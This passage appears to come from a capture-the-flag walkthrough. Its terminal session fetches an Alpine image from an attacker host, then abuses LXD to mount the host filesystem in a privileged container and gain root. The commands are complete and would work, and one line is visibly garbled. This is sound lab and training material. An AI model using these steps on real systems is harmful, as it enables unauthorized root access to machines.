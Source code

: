 **Target Machine**
```sh
www-data@ubuntu:/tmp$ wget http://10.14.92.43:8080/alpine-v3.13-x86.tar.gz
--2024-11-28 07:15:49--  http://10.14.92.43:8080/alpine-v3.13-x86.tar.gz
Connecting to 10.14.92.43:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3259593 (3.1M) [application/gzip]
Saving to: 'alpine-v3.13-x86.tar.gz'

alpine-v3.13-x86.ta 100%[===================>]   3.11M  1.45MB/s    in 2.1s

2024-11-28 07:15:52 (1.45 MB/s) - 'alpine-v3.13-x86.tar.gz' saved [3259593/3259593]

www-data@ubuntu:/tmp$ ls
alpine-v3.13-x86.tar.gz  mypluggin  mypluggin.zip

www-data@ubuntu:/tmp$ tar -xvzf alpine-v3.13-x86.tar.gz

www-data@ubuntu:/tmp$ ls
alpine-v3.13-x86.tar.gz  mypluggin      rootfs
metadata.yaml            mypluggin.zip  templates

www-data@ubuntu:/tmp$ lxc image import ./alpine-* --alias myimage

www-data@ubuntu:/tmp$ lxc image list
+---------+--------------+--------+-------------------------------+--------+--------+------------------------------+
|  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE          |
+---------+--------------+--------+-------------------------------+--------+--------+------------------------------+
| myimage | cd73881adaac | no     | alpine v3.13 (20210218_01:39) | x86_64 | 3.11MB | Nov 28, 2024 at 3:17pm (UTC) |
+---------+--------------+--------+-------------------------------+--------+--------+------------------------------+
www-data@ubuntu:/tmp$ lxc init myimage image -c security.privileged=true
Creating image
nt/root recursive=truelxc config device add image mydevice disk source=/ path=/mn
Device mydevice added to image

www-data@ubuntu:/tmp$ lxc start image

www-data@ubuntu:/tmp$ lxc exec image /bin/sh
~ # whoami
root
~ # find / -type f -name "*.txt" | grep root
/mnt/root/root/final.txt

~ # cat /mnt/root/root/final.txt

     ██╗ ██████╗ ██╗  ██╗███████╗██████╗
     ██║██╔═══██╗██║ ██╔╝██╔════╝██╔══██╗
     ██║██║   ██║█████╔╝ █████╗  ██████╔╝
██   ██║██║   ██║██╔═██╗ ██╔══╝  ██╔══██╗
╚█████╔╝╚██████╔╝██║  ██╗███████╗██║  ██║
 ╚════╝  ╚═════╝ ╚═╝  ╚═╝╚══════╝╚═╝  ╚═╝

!! Congrats you have finished this task !!

Contact us here:

Hacking Articles : https://twitter.com/rajchandel/
Aarti Singh: https://in.linkedin.com/in/aarti-singh-353698114

```